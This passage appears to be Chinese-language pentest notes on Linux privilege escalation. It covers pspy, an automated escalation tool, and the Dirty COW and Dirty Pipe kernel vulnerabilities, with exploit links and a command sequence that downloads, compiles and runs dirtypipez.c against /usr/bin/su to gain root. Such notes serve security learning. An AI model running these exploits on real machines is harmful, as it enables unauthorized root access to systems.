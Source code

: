 



### **pspy**--进程监控

Pspy是一个命令行工具，用于在不需要root权限的情况下窥探进程。该工具通关循环遍历/proc下的值来获取进程参数信息。比如说我们可以找到一些定时任务进程或其他可疑进程来尝试提权

```bash
./pspy64
```

![image-20231015201909328](../images/image-20231015201909328.png)



### traior--自动化提权🐂

多个linux提权漏洞缝合怪，运行后会给出提权方法，并内置了exp可以直接使用

![image-20231015202209167](../images/image-20231015202209167.png)

![image-20231015202355175](../images/image-20231015202355175.png)

![image-20231015202422512](../images/image-20231015202422512.png)

## 常见提权手法

### 内核提权

强调利用内核漏洞的几个**注意点**：

1. 读源码注释，有exp基本信息和编译方法，不然可能连编译都不会
2. 读源码，不然费劲编译完才发现不适用
3. 读源码，不然遇到一个删全盘的”exp“怎么办
4. 遇到没有gcc的坑爹服务器。这时我们就需要在本地编译。本地编译时不止要看exp源码注释的编译参数，也需要手动调整一下编译的参数，比如给gcc 加-m 32来编译32位。编译问题繁多，有困难找谷歌。

- **脏牛漏洞（CVE-2016-5195）**

  > 漏洞原理：该漏洞具体为，get_user_page内核函数在处理**Copy-on-Write**(以下使用COW表示)的过程中，可能产出竞态条件造成COW过程被破坏，导致出现写数据到进程地址空间内只读内存区域的机会。**修改su或者passwd程序**就可以达到root的目的。

  [PoCs · dirtycow/dirtycow.github.io Wiki](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs)

- **Dirty Pipe(CVE-2022-0847)**

  - https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit

    覆盖 /etc/passwd 中的 root 密码字段并在弹出 root shell 后恢复

  - https://haxx.in/files/dirtypipez.c

    直接修改一个具有suid权限的可执行文件，然后执行这个可执行文件提权，完成提权后再把文件改回来

    ```bash
    wget https://haxx.in/files/dirtypipez.c
    gcc -o dirtypipez dirtypipez.c
    ./dirtypipez /usr/bin/su  #任何具体suid权限的文件均可
    ```

